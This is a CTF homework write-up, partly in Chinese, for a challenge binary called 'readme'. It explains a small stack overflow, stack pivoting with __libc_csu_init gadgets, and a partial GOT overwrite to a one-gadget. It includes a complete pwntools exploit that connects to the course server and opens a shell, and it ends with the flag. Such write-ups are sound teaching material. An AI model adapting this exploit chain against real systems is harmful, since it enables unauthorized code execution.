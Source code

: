 hw3
===

## readme

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

### concept

觀察發現主程式非常的簡單，使用 read 來讀取輸入，不過 buf 大小為 0x20 bytes 卻可以讀入 0x30 bytes 造成 overflow

![](https://i.imgur.com/5yCKKAP.png)

因為可以 overflow 的大小有限，只有 0x10 bytes 而已，能夠做的事只有蓋 rbp 和 return address，所以需要使用 stack pivoting 的技巧來塞 rop chain

主要想法是先透過以下兩個 gadget 控 rdx，把 r12 + rbx * 8 的值設為 ret 的 gadget 並且 rbp 設為 1，即可使 call 完回到原本的 gadget 而且通過 cmp 不會跳到 __libc_csu_init + 0x40，而 rdx 的值就會設為 r13

![](https://i.imgur.com/0uut4dG.png)

![](https://i.imgur.com/hh1J9vw.png)

接著將 read_got 後 2 bytes 蓋為附近的 one gadget，最後 call read 即可

![](https://i.imgur.com/AWQ4YCy.png)

![](https://i.imgur.com/TfVIGBH.png)

不過因為有 ASLR 的關係 libc address 除了後 1.5 bytes 之外其他都是 random 的數值，所以只有 1/16 的機會可以成功 exploit

### exploit

```python
#!/usr/bin/env python

from pwn import *
import time

r = remote("csie.ctf.tw", 10135)
# r = process('./readme', env = {"LD_PRELOAD": os.path.join(os.getcwd(), "libc.so.6")})
context.arch = 'amd64'

main_read = 0x40062b
read_got = 0x601020
read_plt = 0x0000000004004c0
buf1 = 0x00602000 - 0x200
buf2 = buf1 - 0x200

pop_r12__pop_r13__pop_r14__pop_r15 = 0x4006ac
mov_rdx_r13__mov_rsi_r14__mov_edi_r15__call_r12__add_rsp_0x8__pop_rbx__pop_rbp__pop_r_12_to_15 = 0x400690
pop_rsi_r15 = 0x00000000004006b1
pop_rdi = 0x00000000004006b3
leave = 0x400646
ret = 0x0000000000400499

def write_rop(addr, data):
    time.sleep(0.5)
    r.send('a' * 32 + flat([addr + 0x20, main_read]))
    time.sleep(0.5)
    r.send(data.ljust(32, '\x00') + flat(buf1 + 0x20, main_read))

rop = flat([
    0x1,

    pop_r12__pop_r13__pop_r14__pop_r15,
    buf2 + 19 * 0x8,
    0x2,
    0x0,
    0x0,
    mov_rdx_r13__mov_rsi_r14__mov_edi_r15__call_r12__add_rsp_0x8__pop_rbx__pop_rbp__pop_r_12_to_15,
    0x0,
    0x0,
    0x1,
    0x0,
    0x0,
    0x0,
    0x0,

    pop_rsi_r15,
    read_got,
    0,
    read_plt,

    read_plt,

    ret
    ])

r.recvuntil(':')
r.send('a' * 32 + flat([buf1, main_read]))

for i in range(0, len(rop), 32):
    write_rop(buf2 + i, rop[i: i + 32])

time.sleep(0.5)
r.send('a' * 32 + flat([buf2, leave]))
time.sleep(0.5)
r.send('\x74\x02')

r.interactive()
```

### flag

```FLAG{CAN_YOU_R34D_MY_M1ND?}```

